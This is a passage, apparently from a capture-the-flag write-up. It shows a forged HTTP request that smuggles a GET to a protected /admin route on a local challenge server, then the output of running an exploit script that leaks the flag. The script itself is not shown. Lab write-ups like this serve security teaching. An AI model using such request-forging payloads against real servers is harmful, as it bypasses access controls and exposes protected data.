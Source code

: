 The payload will forge the HTTP-Request body below. <br/>
```sh
GET /admin HTTP/1.1
Host: localhost:5000

HTTP/1.1
User-Agent: fasttravel/0.1
Connection: close
```

The request body below will be ignored because `\r\n\r\n` marks the end of the HTTP-Request-Body. <br/>
Executing the exploitation script we get a link with an `iframe` which contains the contents of the protected `/admin` route. <br/> 
```sh
python3 e.py 
> FLAG should be available here: http://localhost:5000/HPA1kD
```

Retrieving the flag concludes this challenge. 